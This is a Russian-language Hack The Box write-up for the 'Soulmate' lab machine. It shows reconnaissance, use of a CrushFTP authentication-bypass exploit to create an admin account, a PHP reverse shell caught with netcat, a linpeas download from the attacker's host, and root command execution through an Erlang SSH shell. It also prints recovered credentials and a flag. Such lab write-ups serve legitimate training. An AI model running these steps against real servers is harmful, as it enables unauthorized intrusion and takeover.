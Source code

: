 # 📝 Write-up: Editor (Hack The Box)

![editor](https://app.hackthebox.com/machines/Soulmate)

**Difficulty:** Easy
**Platform:** Hack The Box
**Target host (lab):** `soulmate.htb` — `10.10.11.86 ` (add to `/etc/hosts`)
**Link:** [Soulmate @ HTB](https://app.hackthebox.com/machines/Soulmate)

---

## 🎯 Summary

Soulmate — лёгкая Linux-машина. Ключевые шаги:

* Инициальный доступ через **уязвимость аутентификации в CrushFTP версии до 11.3.1** CVE-2025-31161 (или 2825, Immersive Labs PoC).
* Горизонтальная эскалация: переиспользование пароля из конфигурации.
* Эскалация до root через небезопасную конфигурацию Erlang/OTP ssh демона
---

## 📋 Table of Contents



---

## 🔒 Prerequisites / Notes

* Это write-up для учебной (CTF/lab) среды Hack The Box — **не запускать против продакшн-систем**.
* В моих примерах `soulmate.htb` резолвится в `10.10.11.86`. Добавьте в `/etc/hosts`:

```bash
# add on атакующей машине
echo "10.10.11.86 soulmate.htb" | sudo tee -a /etc/hosts
```

* Я удалил явные плейсхолдеры и указал, где подставлять свои значения: `<YOUR_IP>` — IP вашей атакующей машины для обратного шелла.

---

## 🔍 Reconnaissance

Сначала  порт-скан `nmap`:

```bash
nmap -sC -sV -p22,80,443,20 soulmate.htb
```

Пример вывода (сокращённо):
```
PORT    STATE SERVICE   VERSION
20/tcp  open  ftp-data?
22/tcp  open  ssh?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp  open  http?
443/tcp open  https?
```

---

## 🕵️ Enumeration

### 🌐 HTTP — порт 80

* При переходе на страницу http://soulmate.htb в браузере показался сайт для знакомств.
Я запустил ffuf для поиска директорий, результаты:

```
index.php               [Status: 200, Size: 16688, Words: 6110, Lines: 306, Duration: 687ms]
login.php               [Status: 200, Size: 8554, Words: 3167, Lines: 178, Duration: 67ms]
register.php            [Status: 200, Size: 11107, Words: 4492, Lines: 238, Duration: 72ms]
profile.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 73ms]
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 65ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 67ms]
dashboard.php           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 133ms]
```
При попытке залогинитья с помощью sql запросов сервер вел себя странно 
![Страноость](imageSql.png)
* Это мы запонимаем и копаем дальше


### 🌐 Порт 20 - FTP

* К порту `20` не получилось подключиться
* Запускаем  опять ffuf для поиска субдоменов 

```bash
ffuf -u http://10.10.11.86 -H "Host: FUZZ.soulmate.htb"  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 4
```
* Результаты 
```
ftp.soulmate.htb [Status: 302 Redirect]
```
<!-- Не забываем  -->
echo "10.10.11.86 ftp.soulmate.htb" | sudo tee -a /etc/hosts

### ⚡ Порт 20 — CrushFTP Version: 11.3.0_2

* Обнаружен интерфейс со страницей логина и версия CrushFTP ; найдены уязвимости для этой версии  `crushftp-CVE-2025-2825   --> https://github.com/punitdarji/crushftp-CVE-2025-2825/blob/main/payload ` и `CVE-2025-31161 -->  https://github.com/Immersive-Labs-Sec/CVE-2025-31161`

* crushftp-CVE-2025-2825 с его помощью я получили список юзеров админ панели
![Список_юзеров](image1.png)

* С помощью CVE-2025-31161 получилось от имени рута(root) создать нового пользователя без аутентификации.
```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user xss --password xss123
```
* Получилось войти в систему как xss
![Админ_авпель](image2.png)

* Потыкав на странице ` http://ftp.soulmate.htb/WebInterface/UserManager/index.htm` я обнаружил список юзеров

* Я изменил их пароли и вошел в систему, только у bena были обраружены интересные директории с файлами
![ben](image3.png)
```
/IT/ – Файлы информационных технологий
/ben/ – Пользовательская директория
/webProd/ – Директория веб-продукции (целевая для загрузки файлов)
```

* Я загрузил на webProd monkey.php для получения обратной оболочки 
* На другом терминале я запустил netcat для установки соединения
```bash
nc -lnvp 4444
```
* После загрузки php файла переходим по адресу `http://soulmate.htb/monkey.php`
* Бинго у нас обратная оболочка !

### Получение обратной оболочки
```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.184] from (UNKNOWN) [10.10.11.86] 44832
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

## Перечисление системы 
* В первую очередь я открыл у себя простой http-server
```bash
python3 -m http.server 8000
```
* А на целевой машине я загрузил и исполнил linpeas.sh
```bash
cd /tmp/
wget http://10.10.14.184:8000/linpeas.sh -O lin.sh
chmod +x lin.sh
./lin.sh
```

### Обнаружение интересного процесса 
```bash
root  1048  0.0  1.8 2260044 72276 ? Ssl 16:06 0:03 /usr/local/lib/erlang_login/start.escript -B
```

* При изучении скрипта я нашел конфиденциональные данные юзера ben
```bash
cat /usr/local/lib/erlang_login/start.escript
.......
{auth_methods, "publickey,password"},
{user_passwords, [{"ben", "HouseH0ldings998"}]}

```

### Получение user.txt

* Я подключился по ssh используя креды юзера ben
```bash
ssh ben@soulmate
Password: HouseH0ldings998
```
* Первый флаг готов
```bash
ben@soulmate:~$ cat user.txt
81b8219692204e627f7e41a11e42b26b
```

## Эскалация привелегий до рута 

* Я провеил свои права через `sudo -l`
```bash
ben@soulmate:~$ sudo -l
[sudo] password for ben:
Sorry, user ben may not run sudo on soulmate.
```

* Хорошо а как насчет активных портов 
![Порты](image4.png)

### Обнаружение подозрительного  процесса на порту 2222

* Это была служба Erlang SSH, запущенная на порту 2222 от рута
* Я попытылся используя учетные данные bena переподключиться по localhostу с помощью ssh
```bash
ben@soulmate:~$ ssh ben@localhost -p 2222
Password: HouseH0ldings998
```
* Я получил оболочку 
```bash
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>
```
* Я исользуя chatGPT понял как рабоать с этой оболочкой 
```bash
(ssh_runner@soulmate)1> os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
```

### Чтение флага root.txt
```bash
(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").
```
![root.txt](image.png)
 

 ## Заклюючение 
     "Soulmate" на HackTheBox — отличный вариант для тех, кто только начинает разбираться в пентесте. На этой машине ты на практике изучишь основы взлома веб-приложений, работу с реверс-шеллами и способы получения прав root.

    Спасибо, что дочитали! Надеюсь, этот гайд оказался полезным и поможет тебе покорять другие хакерские полигоны.